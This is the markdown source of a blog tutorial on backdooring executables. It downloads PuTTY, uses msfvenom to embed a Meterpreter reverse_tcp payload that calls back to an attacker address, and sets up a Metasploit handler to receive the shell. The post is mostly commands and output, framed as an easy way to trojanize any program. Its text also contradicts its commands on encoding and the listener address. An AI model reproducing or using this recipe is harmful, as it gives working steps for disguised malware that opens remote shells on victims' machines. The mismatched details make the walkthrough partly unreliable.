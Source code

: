 ```yaml
---
title: Backdooring EXE Files
date: 2021-06-07T20:20:16+05:30
lastmod: 2021-06-07T20:20:16+05:30
author: Animesh Roy
avatar: /img/avatar.jpeg
authorlink: https://bit.ly/34sGFiK
cover: /img/blog.png

categories:
  - tuv
  - amity
  - internship
tags:
  - msfvenom
  - putty
  - backdoor

draft: false
description: Backdooring EXE Files

---
```

## Backdooring EXE Files

### overview

Creating customized backdoored executables often took a long period of time to do manually as attackers. The ability to embed a Metasploit Payload in any executable that you want is simply brilliant. When we say any executable, it means any executable. You want to backdoor something you download from the internet? How about iexplorer? Or explorer.exe or putty, any of these would work. The best part about it is its extremely simple. We begin by first downloading our legitimate executable, in this case, the popular PuTTY client.

### Downloading Legit application

```bash 
wget http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
--2021-06-07 20:22:36--  http://the.earth.li/~sgtatham/putty/latest/x86/putty.exe
Resolving the.earth.li (the.earth.li)... 93.93.131.124, 2a00:1098:86:4d:c0ff:ee:15:900d
Connecting to the.earth.li (the.earth.li)|93.93.131.124|:80... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe [following]
--2021-06-07 20:22:36--  https://the.earth.li/~sgtatham/putty/latest/w32/putty.exe
Connecting to the.earth.li (the.earth.li)|93.93.131.124|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://the.earth.li/~sgtatham/putty/0.75/w32/putty.exe [following]
--2021-06-07 20:22:37--  https://the.earth.li/~sgtatham/putty/0.75/w32/putty.exe
Reusing existing connection to the.earth.li:443.
HTTP request sent, awaiting response... 200 OK
Length: 1179880 (1.1M) [application/x-msdos-program]
Saving to: ‘putty.exe’

putty.exe                           100%[=================================================================>]   1.12M   380KB/s    in 3.0s    

2021-06-07 20:22:41 (380 KB/s) - ‘putty.exe’ saved [1179880/1179880]
```

Next, we use msfvenom to inject a meterpreter reverse payload into our executable, encode it three times using shikata_ga_nai and save the backdoored file into our webroot directory.

## Backdooring the Application

```bash
msfvenom -a x86 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=192.168.100.101 -f exe -o putty-malware.exe
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 1542144 bytes
Saved as: putty-malware.exe
```

### listener setup

```bash
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.100.101
LHOST => 192.168.1.101
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > exploit

[*] Started reverse handler on 192.168.100.101:443 
[*] Starting the payload handler...
```

### Screen Shot From Windows System

![msf-payload](https://i.imgur.com/UvxDbqe.png)

<!-- Amazon Ads-->

<script type="text/javascript" language="javascript">
      var aax_size='300x250';
      var aax_pubname = 'anir0y-21';
      var aax_src='302';
    </script>
<script type="text/javascript" language="javascript" src="https://c.amazon-adsystem.com/aax2/assoc.js"></script>
<!-- Amazon Ads-->

---